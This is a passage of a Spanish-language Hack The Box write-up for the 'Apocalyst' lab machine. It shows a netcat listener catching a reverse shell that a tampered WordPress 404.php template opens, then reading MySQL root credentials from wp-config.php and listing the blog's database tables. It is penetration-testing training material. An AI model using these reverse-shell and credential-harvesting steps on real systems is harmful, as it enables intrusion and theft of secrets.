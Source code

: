 

Abrimos un listener en nuestro equipo atacante, provocamos un error para que se ejecute nuestro template modificado 404.php y ganamos acceso a la máquina víctima

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.19] from (UNKNOWN) [10.10.10.46] 44030
bash: cannot set terminal process group (1579): Inappropriate ioctl for device
bash: no job control in this shell
www-data@apocalyst:/var/www/html/apocalyst.htb$ 
```

### Escalada Privilegios

* * *

En el directorio donde nos econtramos vemos el archivo `wp-config.php` el cual es habitual que nos podamos encontrar credenciales. Lo examinamos y encontramos las credenciales de root para mysql


<img src="/assets/HTB/Apocalyst/mysql.png">


Accedemos a mysql pero únicamente encontramos las credenciales de falaraki las cuales ya tenemos

```bash
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| wp_myblog          |
+--------------------+
5 rows in set (0.01 sec)

mysql> use wp_myblog
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+-----------------------+
| Tables_in_wp_myblog   |
+-----------------------+
| wp_commentmeta        |
| wp_comments           |
| wp_links              |
| wp_options            |
| wp_postmeta           |
| wp_posts              |
| wp_term_relationships |
| wp_term_taxonomy      |
| wp_termmeta           |
| wp_terms              |
| wp_usermeta           |
| wp_users              |
+-----------------------+
```